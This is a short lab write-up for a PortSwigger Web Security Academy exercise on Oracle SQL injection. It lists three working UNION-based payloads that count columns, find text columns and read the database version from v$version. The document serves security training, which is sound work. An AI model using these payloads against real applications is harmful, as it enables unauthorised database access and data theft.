 # Lab: SQL injection attack, querying the database type and version on Oracle
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query. 
* Our Goal: To solve the lab, display the database version string.

## Exp - [SQLi Cheat Sheet - Examining the database in SQL injection attacks](https://portswigger.net/web-security/sql-injection/examining-the-database)
According to the cheat sheet above, we can use the command to fetch the version of this database, e.g. 
![](https://i.imgur.com/Qxtgz5u.png)
:::warning
Before the recon, the hint told you that this database is created by `Oracle`. So, you must contained `From` preserved word in each query, e.g. `SELECT 'abc' FROM dual`
:::
1. Determine # of columns that are being returned by the query
Payload: `?category=Gifts' union select NULL,NULL from v$version--`

2. Which columns contain text data
Payload: `?category=Gifts' union select 'a','b' from v$version--`
Two of them are text data

3. Attack
Payload: `?category=Gifts' UNION SELECT BANNER,'abc' FROM v$version--`
    :::spoiler Result
    ![](https://i.imgur.com/KqhEhpV.png)
    :::

## Reference